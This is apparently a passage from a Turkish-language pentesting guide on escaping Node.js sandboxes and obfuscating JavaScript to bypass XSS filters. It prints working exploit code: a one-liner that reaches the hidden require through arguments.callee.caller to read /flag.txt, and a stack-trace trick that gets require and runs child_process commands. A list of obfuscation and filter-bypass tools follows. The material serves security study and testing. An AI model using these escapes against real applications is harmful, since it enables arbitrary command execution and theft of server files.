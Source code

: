 {% code overflow="wrap" %}
```javascript
(function(){return arguments.callee.caller.arguments[1]("fs").readFileSync("/flag.txt", "utf8")})()
```
{% endcode %}

Önceki örnekteki gibi, **hata işleyicilerini** kullanarak modülün **wrapper**'ına erişmek ve **`require`** fonksiyonunu almak mümkündür:
```javascript
try {
null.f()
} catch (e) {
TypeError = e.constructor
}
Object = {}.constructor
String = ''.constructor
Error = TypeError.prototype.__proto__.constructor
function CustomError() {
const oldStackTrace = Error.prepareStackTrace
try {
Error.prepareStackTrace = (err, structuredStackTrace) => structuredStackTrace
Error.captureStackTrace(this)
this.stack
} finally {
Error.prepareStackTrace = oldStackTrace
}
}
function trigger() {
const err = new CustomError()
console.log(err.stack[0])
for (const x of err.stack) {
// use x.getFunction() to get the upper function, which is the one that Node.js adds a wrapper to, and then use arugments to get the parameter
const fn = x.getFunction()
console.log(String(fn).slice(0, 200))
console.log(fn?.arguments)
console.log('='.repeat(40))
if ((args = fn?.arguments)?.length > 0) {
req = args[1]
console.log(req('child_process').execSync('id').toString())
}
}
}
trigger()
```
### Obfuscation & Advanced Bypass

* **Bir sayfadaki farklı obfuscations:** [**https://aem1k.com/aurebesh.js/**](https://aem1k.com/aurebesh.js/)
* [https://github.com/aemkei/katakana.js](https://github.com/aemkei/katakana.js)
* [https://ooze.ninja/javascript/poisonjs](https://ooze.ninja/javascript/poisonjs)
* [https://javascriptobfuscator.herokuapp.com/](https://javascriptobfuscator.herokuapp.com)
* [https://skalman.github.io/UglifyJS-online/](https://skalman.github.io/UglifyJS-online/)
* [http://www.jsfuck.com/](http://www.jsfuck.com)
* Daha sofistike JSFuck: [https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce](https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)
* [http://utf-8.jp/public/jjencode.html](http://utf-8.jp/public/jjencode.html)
* [https://utf-8.jp/public/aaencode.html](https://utf-8.jp/public/aaencode.html)
* [https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)
```javascript
//Katana
```